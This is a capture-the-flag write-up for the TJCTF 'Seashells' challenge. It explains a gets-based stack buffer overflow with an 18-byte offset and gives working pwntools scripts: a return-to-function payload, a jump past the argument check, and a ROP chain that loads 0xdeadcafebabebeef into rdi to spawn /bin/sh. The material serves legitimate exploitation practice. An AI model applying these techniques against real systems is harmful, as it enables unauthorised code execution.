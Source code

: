 ```yaml
---
tags: [TJCTF]
title: Seashells
created: '2020-05-31T09:33:56.008Z'
modified: '2020-05-31T10:53:43.070Z'
---
```


# Seashells
## Solving
- There is a function `shell` at `0x4006c7`, which when called with $param1 = 0xdeadcafebabebeef$, will spawn a `/bin/sh` shell.
- There is a `gets` into buffer `local_12`, which is $10$ bytes big.
- With a pattern, we found that the offset to the first return is $18$ bytes.

We can now do 2 things
- Jump to syscall, skipping the check for the parameter in the `shell function`
  - Jump straight to `0x4006e3`
- Create a ROP chain to set the first parameter correctly
  - After successfully calling the shell function, we need to put $0xdeadcafebabebeef$ into $rdi$. We can do that by finding a `pop rdi; ret` gadget and putting that in the payload, followed by $0xdeadcafebabebeef$ and the return address for the `shell` function
## Commands
- `file seashells`: `seashells: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3621729c49fe5cebe2153c267fbdf4adb70b0eec, not stripped`
- `checksec`: `NX` and `RELRO`
### Finding offset to return after BoF
`pattern create 256`
`pattern search`

## Exploit
### Jump to beginning shell function
```bash
python -c "import pwn; print(
  'a' * 18 + # Padding
  pwn.p64(0x4006c7)
);" > input.txt
```
### Jump to syscall
```python
#!/usr/bin/env python3

from pwn import *

def main():
	io = process('seashells')

	padding = b'a' * 18
	syscall = p64(0x4006e3)

	payload = padding + syscall

	io.recvuntil('Would you like a shell?')
	io.sendline(payload)
	io.interactive()


if __name__ == '__main__':
	main()
```
### ROPChain
```python
#!/usr/bin/env python3

from pwn import *


def main():
	# context.log_level = 'DEBUG'

	file = './seashells'
	io = process(file)
	binary = ELF(file)
	rop = ROP(file)

	padding = b'a' * 18
	pop_rdi = p64(rop.find_gadget(['pop rdi', 'ret'])[0])
	deadcafebabebeef = p64(0xDEADCAFEBABEBEEF)
	shell_function = p64(binary.symbols['shell'])

	payload = padding + pop_rdi + deadcafebabebeef + shell_function

	io.sendlineafter('Would you like a shell?', payload)
	io.interactive()


if __name__ == '__main__':
	main()

```
